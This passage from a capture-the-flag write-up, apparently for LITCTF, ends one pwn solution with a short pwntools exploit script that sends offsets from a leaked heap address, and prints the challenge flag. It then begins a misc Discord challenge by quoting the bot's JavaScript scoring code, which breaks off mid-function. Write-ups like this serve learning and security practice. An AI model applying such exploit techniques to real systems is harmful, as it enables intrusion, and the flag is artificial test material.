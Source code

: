 ```python

io = start()

heapaddr = io.recvline().strip()
heapaddr = int(heapaddr, 16)

io.sendline(str(heapaddr - 65).encode())
io.sendline(str(heapaddr).encode())

log.success(io.recvlines(2)[1].decode())
```

This pdf gives a better outline of what is happening in this exploit: https://drive.google.com/file/d/1g2qIENh2JBWmYgmfTJMJUier8w0XAGDt/view


flag: `LITCTF{very_legitimate_exit_function}`


# Misc

## So You Think You Can Talk

A lot of people think they can..... Well let's find out in our Discord Server #so-you-think-you-can-talk channel. Beat your competitors by talking most! Send +explain in the channel to get a more detailed explanation of the challenge.

---

This is a misc discord challenge.

going to that channel we can get more info:

The bots code:

```javascript
client.on("messageCreate", async (msg) => {
  if(msg.content.length > 2000) return;
  if(msg.channelId == 1137653157825089536) {
    // Within the right channel
    user_id = msg.author.id;
    if(!users.has(user_id)) {
      users.set(user_id,new User(msg.author.globalName));
    }

    if(users.get(user_id).disabled) return;

    if(msg.mentions.repliedUser) {
      const repliedTo = await msg.channel.messages.fetch(msg.reference.messageId);
      if(repliedTo.content.length > 2000) return;
      if(repliedTo.author.id == msg.author.id) return;
      if(msg.createdTimestamp - repliedTo.createdTimestamp <= 2 * 60000) { // 2 minutes of time
        if(await check(msg.content,repliedTo.content)) {
          // Yay successfully earn point
          users.get(user_id).score += 1;
          users.get(repliedTo.author.id).score = Math.max(users.get(repliedTo.author.id).point - 0.4,0);
          msg.react('😄');

        }else{
          // Nope, you get points off
          users.get(user_id).score = Math.max(users.get(user_id).score - 0.4,0);
          msg.react('😭');
        }
      }
    }else{
```